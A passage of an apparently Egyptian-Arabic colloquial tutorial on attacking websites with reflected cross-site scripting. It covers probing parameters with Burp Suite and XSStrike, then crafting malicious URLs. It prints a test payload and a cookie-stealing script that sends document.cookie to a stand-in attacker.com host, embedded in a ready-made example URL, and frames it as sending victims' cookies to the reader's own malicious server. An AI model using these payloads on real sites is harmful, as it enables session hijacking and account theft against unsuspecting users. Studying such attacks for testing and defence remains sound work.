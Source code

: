 ##### **استخدام أدوات:**
- **Burp Suite**:
  1. اضبط Burp Suite على الـ Proxy عشان يلتقط الطلبات.
  2. افتح الرابط في المتصفح، وادخل كلمة زي `test` في الباراميتر.
  3. في Burp Suite، ابعت الطلب للـ **Repeater**.
  4. استبدل `test` بـ Payload زي:
     ```html
     <script>alert('XSS')</script>
     ```
  5. اضغط "Send"، وشوف الـ Response. لو الكود اتعرض زي ما هو، يبقى فيه ثغرة.

- **XSStrike**:
  1. نزّل XSStrike:
     ```
     git clone https://github.com/s0md3v/XSStrike.git
     ```
  2. شغّل الأداة على الرابط:
     ```
     python3 xsstrike.py -u "example.com/search?query=test"
     ```
  3. الأداة هتختبر الباراميتر بـ Payloads مختلفة وتعرفك لو فيه ثغرة.

---

**خلاصة بالعامية:**
الخطوة دي زي ما تكون بتدور على الباب الضعيف في البيت (الباراميتر). بتخبّط عليه بحاجة بسيطة (زي Alert) عشان تشوف لو الباب هيفتح. لو فتح، يبقى جاهز تبعت السكربت الخبيث.

---

#### **الخطوة 2: تصميم Malicious URLs بـ Payloads**
لما تعرف إن الباراميتر ضعيف، تبدأ تصمم رابط فيه **Payload** يناسب الهدف. هنا أمثلة على Payloads وإزاي تضيفها للـ URL:

##### **1. Payload بسيط للاختبار:**
```html
<script>alert(document.cookie)</script>
```
- حطه في الـ URL:
  ```
  example.com/search?query=<script>alert(document.cookie)</script>
  ```
- لو اشتغل، يبقى تقدر تشوف الكوكيز وتستغلها.

##### **2. Payload لسرقة الكوكيز:**
```html
<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
```
- الرابط:
  ```
  example.com/search?query=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
  ```
- ده بيبعت الكوكيز لسيرفرك الخبيث.
